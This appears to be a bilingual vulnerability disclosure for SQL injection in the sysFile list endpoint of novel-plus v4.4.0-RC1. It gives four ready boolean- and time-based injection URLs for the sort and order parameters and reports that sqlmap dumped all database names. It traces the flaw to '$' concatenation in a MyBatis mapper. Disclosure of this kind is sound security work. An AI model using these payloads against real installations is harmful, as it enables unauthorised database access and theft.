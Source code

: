 SQL injection vulnerability exists in novel-plus v4.4.0-RC1

novel-plus系统novel-admin子系统common/log/list接口存在SQL注入

The /common/sysFile/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

official website: https://novel.xxyopen.com/index.htm

github: https://github.com/201206030/novel-plus

Affected version: v4.4.0-RC1

releases：https://github.com/201206030/novel-plus/releases/tag/v4.4.0-RC1


Payload:
```
parameter -sort-
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1 AND 7858=(SELECT (CASE WHEN (7858=7858) THEN 7858 ELSE (SELECT 8757 UNION SELECT 2737) END))-- -&order=asc
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1 AND (SELECT 8148 FROM (SELECT(SLEEP(5)))yohp)&order=asc
parameter -order-
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1&order=,1 AND 4354=(SELECT (CASE WHEN (4354=4354) THEN 4354 ELSE (SELECT 8745 UNION SELECT 7606) END))-- - asc
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1&order=,1 AND (SELECT 2800 FROM (SELECT(SLEEP(5)))qQhq) asc
```

Use sqlmap for verification, and retrieve all the database names.

使用sqlmap验证，跑出所有库名：

parameter -sort-
![image](https://github.com/user-attachments/assets/64798adf-03a3-414d-be13-7552b604166a)

parameter -order-
![image](https://github.com/user-attachments/assets/31b7056c-c898-469d-8566-6e4259391c29)


The list interface in FileController calls the list method from FileService to query sysFile.

FileController中list接口调用FileService的list方法系统文件；

novel-admin/src/main/java/com/java2nb/common/controller/FileController.java

![image](https://github.com/user-attachments/assets/355fa270-78b1-497c-a17c-947d1623737d)

FileServiceImpl calls sysFileMapper to query the file.

FileServiceImpl中调用sysFileMapper查询文件；

novel-admin/src/main/java/com/java2nb/common/service/impl/FileServiceImpl.java

![image](https://github.com/user-attachments/assets/75ae0ce3-809f-4e55-88d5-d3b5fb7a2690)


In sysFileMapper, the usage of the $ symbol to concatenate the sort parameter and the order parameter results in an SQL injection vulnerability.

sysFileMapper中sort参数和order参数使用了$符号来拼接，导致存在SQL注入漏洞；

novel-admin/src/main/resources/mybatis/common/FileMapper.xml

![image](https://github.com/user-attachments/assets/5071c951-a2ab-4c99-9b18-1f52521a2434)










